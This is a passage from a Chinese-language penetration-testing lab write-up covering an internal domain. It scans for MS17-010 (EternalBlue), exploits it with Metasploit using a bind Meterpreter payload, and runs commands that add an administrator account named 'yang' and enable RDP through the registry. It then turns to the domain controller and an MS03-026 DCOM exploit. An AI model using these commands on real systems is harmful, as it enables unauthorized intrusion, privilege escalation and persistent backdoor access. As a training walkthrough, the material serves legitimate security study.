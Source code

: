 ```shell
proxychains nmap -sT -sV -Pn -n -p22,80,135,139,445 --script=smb-vuln-ms17-010.nse 192.168.52.141/138
```

![image-20220622095736097](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206220957134.png)

这个时候就可以使用msf内置的永恒之蓝漏洞去获取域成员的shell了，这个时候需要注意的是使用payload的时候要使用正向shell去连接

```shell
search ms17-010
use exploit/windows/smb/ms17_010_psexec
set payload windows/meterpreter/bind_tcp
set rhost 192.168.52.141
run
```

![image-20220622095927641](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206220959709.png)

> 发现不可以反弹shell，但是发现可以使用`auxiliary/admin/smb/ms17_010_command`来执行一些命令且是系统权限。

```shell
use auxiliary/admin/smb/ms17_010_command
show options
set rhosts 192.168.52.141
set command "net user yang admin@123 /add" #添加用户
run #成功执行

set command "net localgroup administrators yang /add" #管理员权限
run

set command 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f'
run #成功执行
```

然后使用`proxychains`连接他的3389，`proxychains rdesktop 192.168.52.141`

![image-20220622163139094](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206221631353.png)

#### 4、获取域控权限

set rhost 192.168.52.138

![image-20220622100022706](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206221000754.png)

![image-20220622102204140](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206221022206.png)

![image-20220622163446471](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206221634597.png)

### 八、MS03-026 DCOM服务漏洞

​		通过扫描发现141主机和138主机均开启135端口，使用Metasploit尝试利用MS03-026漏洞，在141主机利用成功，如图：

- **141主机**

![image-20220624144224339](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206241442403.png)

![image-20220624144300046](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206241443106.png)











